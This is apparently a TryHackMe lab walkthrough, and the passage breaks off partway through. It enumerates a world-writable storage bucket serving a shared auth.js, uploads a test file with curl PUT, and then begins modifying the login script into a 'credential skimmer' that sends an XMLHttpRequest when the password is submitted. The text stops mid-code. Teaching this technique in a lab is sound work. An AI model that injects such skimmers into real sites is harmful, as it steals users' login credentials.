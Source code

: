 ```javascript
</body>
</html>

sudo bash -c "echo '10.10.92.0 cdn.tryhackme.loc' >> /etc/hosts"

now we can see it

//This is our shared authentication library. It includes a really cool function that will autosubmit the form when a user presses enter in the password textbox!

var input = document.getElementById('txtPassword');
input.addEventListener("keypress", function(event) {
	if (event.key == "Enter") {
		event.preventDefault();
		document.getElementById("loginSubmit").click();
	}
});

http://cdn.tryhackme.loc:9444/libraries/

<ListBucketResult>
<Name>libraries</Name>
<MaxKeys>1000</MaxKeys>
<Marker/>
<Prefix/>
<Contents>
<Key>auth.js</Key>
<LastModified>2022-08-08T10:24:44Z</LastModified>
<Size>379</Size>
<StorageClass>STANDARD</StorageClass>
<ETag>76ff407f08617fef5ae8d8fa5c166f04</ETag>
</Contents>
<IsTruncated>false</IsTruncated>
</ListBucketResult>

http://cdn.tryhackme.loc:9444/libraries/test.js

<Error>
<Code>NoSuchKey</Code>
<Message>Object does not exist</Message>
<Resource>/libraries/test.js</Resource>
</Error>

root@ip-10-10-30-245:~# curl -X PUT http://cdn.tryhackme.loc:9444/libraries/test.js -d "Testing world-writeable permissions"

now can we download it

Testing world-writeable permissions

credential skimmer

root@ip-10-10-30-245:~# nano auth.js
root@ip-10-10-30-245:~# cat auth.js 
//This is our shared authentication library. It includes a really cool function that will autosubmit the form when a user presses enter in the password textbox!

var input = document.getElementById('txtPassword');
input.addEventListener("keypress", function(event) {    
	if (event.key == "Enter") {
		event.preventDefault();
        try {
            const oReq = new XMLHttpRequest();
```